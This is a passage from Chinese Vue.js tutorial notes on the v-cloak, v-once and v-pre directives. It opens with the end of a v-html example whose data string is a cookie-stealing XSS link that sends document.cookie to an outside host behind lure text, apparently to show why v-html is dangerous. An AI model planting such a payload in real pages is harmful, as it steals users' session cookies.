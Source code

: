 ```Vue
        str2:'<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>兄弟我找到你想要的资源了，快来！</a>',
      }
    })
</script>

```

### 42、v-cloak指令

v-cloak指令（没有值）：

  1.本质是一个特殊属性，Vue实例创建完毕并接管容器后，会删掉v-cloak属性。

  2.使用css配合v-cloak可以解决网速慢时页面展示出{{xxx}}的问题。

```Vue
<style>
      [v-cloak]{
        display:none;
      }
    </style>
    <div id="root">
      <h2 v-cloak>{{name}}</h2>
    </div>
    <script type="text/javascript" src="http://localhost:8080/resource/5s/vue.js"></script>
    <script type="text/javascript">
    console.log(1)
    Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。
    
    new Vue({
      el:'#root',
      data:{
        name:'尚硅谷'
      }
    })
  </script>
```

### 43、v-once指令

1.v-once所在节点在初次动态渲染后，就视为静态内容了。

  2.以后数据的改变不会引起v-once所在结构的更新，可以用于优化性能。

### 44、v-pre指令

v-pre指令：

  1.跳过其所在节点的编译过程。

  2.可利用它跳过：没有使用指令语法、没有使用插值语法的节点，会加快编译。

### 47、自定义指令_总结
